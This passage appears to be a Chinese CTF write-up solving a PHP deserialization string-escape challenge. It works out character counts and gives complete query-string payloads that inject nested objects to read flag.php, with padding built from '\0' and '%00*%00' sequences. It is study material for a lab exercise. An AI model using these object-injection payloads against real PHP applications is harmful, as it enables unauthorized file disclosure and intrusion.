 ```
*/
echo read(write(serialize($a)));
/*
O:1:"A":2:{s:8:"username";s:1:"a";s:8:"password";s:72:";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}
";s:8:"password";s:72: 长度为 22  \0\0\0 共8份
 
?a=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=;s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
*/
echo read(write(serialize($a)));  // 含有不可见字符，不再拷贝了
/*最后补充两个 " 闭合 payload 为
?a=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b="";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
*/

```

```
// 难度2
$c =new C();
$c->c = 'flag.php';
$b = new B();
$b->b=$c;
$a = new A('a',$b);
echo serialize($a);
/*
O:1:"A":2:{s:8:"username";s:1:"a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
因为这个是增加的所以 b 没有用，随意发送字符串即可
*/
?a=;s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}&b=deadbeef
echo write(read(serialize($a)));
/*
O:1:"A":2:{s:8:"username";s:72:";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";s:8:"password";s:8:"deadbeef";}
;s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}} 长度为 72  %00*%00 共24份 多加 " 闭合
 
?a=%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00%00*%00";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}&b=deadbeef
*/
echo write(read(serialize($a)));
 
/*
O:1:"A":2:{s:8:"username";s:145:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";s:8:"password";s:8:"deadbeef";}
此时，\0 共144个，无论如何都无法闭合，需要增加新的属性方可完善。
*/
     
$c =new C();
$c->c = 'flag.php';
$c->a='';
$b = new B();
$b->b=$c;
$a = new A('a',$b);
echo serialize($a);
/*
O:1:"A":2:{s:8:"username";s:1:"a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":2:{s:1:"c";s:8:"flag.php";s:1:"a";s:0:"";}}}
按以上步骤再来一遍
```